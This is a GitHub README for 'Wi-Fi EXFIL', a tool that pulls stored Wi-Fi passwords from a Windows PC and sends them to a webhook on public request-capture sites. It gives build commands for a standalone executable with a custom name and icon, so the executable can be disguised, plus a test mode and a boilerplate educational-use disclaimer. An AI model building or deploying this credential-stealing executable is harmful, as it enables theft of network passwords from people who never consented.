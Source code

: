 # Wi-Fi EXFIL

Exfiltrate stored Wi-Fi passwords from a Windows PC.

## Requirements

1. On your Windows machine install Python from <https://www.python.org/downloads/>.

2. Install pyinstaller, run `pip install pyinstaller` from cmd.

3. Create a webhook from one of the following sites:

- <https://requestinspector.com>
- <https://beeceptor.com>
- <https://webhook.site>

## Usage

First clone or download repo as ZIP. Then select between [build](#build) or [test](#test) mode.

### Build

Create basic executable:

```shell
python3 build.py <webhook_url>
```

Create executable with custom name or icon:

```shell
python3 build.py -n <name> -i <icon_file> <webhook_url>
```

Executable will be placed inside the **dist** directory. Run it and results will appear in the webhook.

### Test

> :warning: This mode is designed for running scripts directly from Python without needing any executable.

```shell
python3 test.py <webhook_url>
```

## Disclaimer

Usage of these scripts for attacking targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program. Only use for educational purposes.

## Credits

[Original script](https://github.com/thegoodhackertv/wifiExfil) provided by [Andrés Moreno](https://github.com/thegoodhackertv).

[<img width=300 alt="patreon" src="https://i0.wp.com/thegoodhackertv.com/wp-content/uploads/2020/11/patreon.png">](https://www.patreon.com/thegoodhacker)

[<img width=250 alt="buymeacoffe" src="https://cdn.buymeacoffee.com/buttons/v2/default-orange.png">](https://www.buymeacoffee.com/thegoodhacker)

<!-- ¡Un saludo desde México Andrés! -->
